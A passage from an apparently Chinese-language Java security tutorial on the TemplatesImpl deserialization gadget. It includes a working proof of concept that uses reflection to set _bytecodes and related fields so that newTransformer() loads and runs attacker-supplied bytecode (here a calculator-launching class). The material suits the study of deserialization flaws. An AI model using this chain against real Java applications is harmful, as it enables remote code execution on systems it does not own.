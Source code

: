 ```java
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

写成静态代码块也是可以的。如果不继承AbstractTranslet而去通过反射修改_auxClasses，那么`_transletIndex`为-1会通不过下面的判断语句从而退出程序：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206151444.png)

整理利用链：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class TemplatesImplTest {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }
    public static void main(String[] args) {
        try {
            byte[] codes = Files.readAllBytes(Paths.get("E:\\xxx\\JavaSec\\code\\target\\classes\\Calc.class"));
            byte[][] _bytecodes = new byte[][] {codes};
            TemplatesImpl templates = new TemplatesImpl();
            setFiledValue(templates, "_bytecodes", _bytecodes);
            setFiledValue(templates, "_name", "whatever");
            setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
            templates.newTransformer();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

`_tfactory`需要注意一下，它是被transient修饰的，也就是说它不会被序列化：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206141637.png)

但是这里要求较低，只要不为null就行：
